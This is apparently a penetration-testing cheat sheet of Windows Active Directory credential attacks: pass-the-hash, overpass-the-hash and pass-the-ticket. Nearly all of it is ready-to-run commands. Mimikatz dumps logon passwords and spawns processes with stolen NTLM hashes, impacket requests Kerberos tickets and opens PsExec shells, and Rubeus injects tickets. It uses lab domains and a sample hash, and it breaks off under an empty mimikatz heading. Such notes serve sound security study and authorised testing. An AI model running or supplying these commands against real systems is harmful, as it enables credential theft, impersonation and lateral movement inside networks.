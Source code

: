 ```shell
sekurlsa::pth /user:[user] /domain:[domain] /ntlm:[NT hash] /run:"[command]"
```

```shell
# resources
# https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/
```
# ***Overpass the Hash (DU)***
***Use NTLM hash to get TGT so we can access services that use Kerberos***
## impacket
```shell
# 1 GET TGT using password or hash and save it
impacket-getTGT.py -dc-ip `dc` jurassic.park/velociraptorr -hashes :HASH
export KRB5CCNAME=./velociraptor.ccache


# 2 
impacket-psexec jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
```
## mimikatz
```shell
# 1 GET target user's hash
privilege::debug
token::elevate
sekurlsa::logonpasswords


# 2 USE pth to spawn PS in context of jen
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell


# 3 FROM SPAWNED PS, obtain the TGT using a program that will use authentication
net user /domain
ls \\<DC>\sysvol


# 4 View the ticket (krbtgt server one is the TGT)
klist


#
# 5 Check success using a program such as PsExec
.\PsExece.exe \\files04 cmd
```
## rubeus
```shell
.\Rubeus.exe asktgt /domain:[domain] /user:[user] /rc4:[hash] /ptt
```
# ***Pass-The-Ticket***
***Impersonate w/ TGS OR Pass TGT to obtain TGS***
## impacket
```shell
# CONVERT Ticket first if needed then export as below
export KRB5CCNAME=ticket.ccache
impacket-psexec jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
```
## mimikatz